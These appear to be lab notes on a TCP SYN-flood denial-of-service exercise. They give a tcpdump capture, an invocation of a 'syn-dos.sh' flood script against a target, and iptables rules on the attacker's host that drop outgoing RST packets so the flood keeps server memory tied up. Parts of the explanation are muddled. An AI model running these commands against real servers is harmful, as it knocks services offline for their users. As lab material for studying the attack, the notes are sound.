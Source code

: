TCP DUMP

sudo tcpdump -w filter.pcap -nnti ethX tcp

EXTRA 1

Try by blocking tcp syn ack coming from the server and directed to the attacker.

Perform syn flooding with fixed attacker IP source
sudo bash syn-dos.sh 5.6.7.8 200000 1.1.2.4 255.255.255.255

Without firewall, the attacker is sending malicious SYN ACK but is also receiving unexpecting SYN+ACK sending a RST which free the memory allocated by the server.

This should stop all the packet with SYN ACK flag setted to 1
	iptables -I INPUT 1 -s <source> -p tcp --tcp-flags SYN,ACK SYN,ACK -j DROP
To revert
	iptables -D INPUT -s <source> -p tcp --tcp-flags SYN,ACK SYN,ACK -j DROP
	
This should stop all the packet send with RST flag setted to 1 -> THIS WORK AS EXPECTED, APPLY IT TO THE ATTACKER
	iptables -I OUTPUT 1 -d 5.6.7.8 -p tcp --tcp-flags RST RST -j DROP -> TOOOPPPP
To revert
	iptables -D OUTPUT -d 5.6.7.8 -p tcp --tcp-flags RST RST -j DROP
